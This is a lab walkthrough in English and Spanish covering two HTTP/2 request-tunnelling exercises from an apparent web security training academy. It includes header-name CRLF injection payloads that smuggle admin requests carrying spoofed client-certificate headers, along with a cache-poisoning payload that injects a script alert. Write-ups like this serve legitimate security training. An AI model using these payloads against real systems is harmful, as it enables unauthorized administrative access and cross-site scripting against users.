# Laboratories http2 request tunnelling

## Expert Lab: Bypassing access controls via HTTP/2 request tunnelling


This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming header names. To solve the lab, access the admin panel at /admin as the administrator user and delete carlos.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to request tunnelling.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

For solve:
- Enter in admin 
- Delete carlos

Hint: [Bypassing client authentication](https://portswigger.net/web-security/request-smuggling/exploiting#bypassing-client-authentication)
```html
0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```


1. Intercept home page and send to repeater



2.  stop intercept, allow http2 alpn override and change protocol to http2 . Then send and check if it works



3.  Add in header inspector 

```bash
#Name:
foo: bar\r\n
Host: anything

#Value:
anythingvalue
```



💥 Ok, work, Lab its vulnerable to CRLF injection via headers names

4. Intercept search, send to repeater, change to http2 and change request method to POST



5.  in header inspector

```bash
#Name

foo: anything\r\n
Content-Length: 300\r\n
\r\n
search=CLRF

#Value
anyvalue
```



If time out we can try 2 things:

1. Go down Content-Lenght but the resoult is will be very short and we can't will see nothing important
2.  Increase characters in body




cookie: session=5GPREZaKmHIhgcKIcHuM1Rg1eIKYfQfh
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 2765812752956218

6. Now we will use this credentials to login to admin. 

```bash
#Name

foo: anything\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2765812752956218\r\n
\r\n

#Value
anyvalue

```



7. 💥change Method POST to HEAD



8. Response send error 500 the reason is that the content length is too long.


9. we can try changing the url to login

Ok, works



10. the next step would seem to change path to /admin/delete?username=carlos but we can use parameters and unauthorization.

We change url in HEAD 






## Expert Lab: Web cache poisoning via HTTP/2 request tunnelling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and doesn't consistently sanitize incoming headers.

To solve the lab, poison the cache in such a way that when the victim visits the home page, their browser executes alert(1). A victim user will visit the home page every 15 seconds.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to request tunnelling.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

For solve the lab:
- We need the victim execute alert(1)

1. Vamos a probar si es vulnerable la web por path. Cambiamos el GET a Path en el inspector y añadimos una url \r\nFoo:algo



nos da error , eso es porque no le hemos puesto el http/1.1 al final de la url

Ahora si. 💥Confiramomos que es vulnerable a path. Nos da error 404 porque obviamente la url no existe, pero está intentando acceder.


2. En este momento necesitamos algo para poder ejecutar XSS.
   1. A simple vista no vemos nada.
   2. Probamos las carpetas que haya por ejemplo /img /css /resources en este caso.
   3. Probablemente no vemos nada pero por cuando vayamos al inspector podemos encontrar alguna que haga una redirección. En este caso resources y podrá ser posible víctima



Ahora la mandamos a repeater y vemos que si añadimos el script alert lo manda



En situación normal , yo debería de poder ejecutarlo en mi explorer entiendo.

3. Vamos a insertar en nuestra solicitud

```bash

#💥 Poner el ?delante de aa como parámetro para que no aparezca el 404
#Nombre
:path

#Valor

/?aa HTTP/1.1
Host:0a2b00ed04b96f15c07c1faf00b5001c.web-security-academy.net

Get /resources?<script>alert(1)</script> HTTP/1.1
Foo: anything

```



Nos sale time out, como hemos visto esto sucede cuando el Content-Length es demasiado alto para lo que mandamos, por lo que añadimos más texto. ¿Cuanto texto? Buscamos una petición get y miramos más o menos. Los post tienen unos 8000 caracteres. 



Confirmamos que funciona yendo a la página /?aa que pusimos y viendo que se ejecuta el alert, mientras que la cache se mantiene, por lo que puede que no salte a la primera



Ahora que confirmamos que funciona , quitamos el /?aa y enviamos hasta que lo envenene



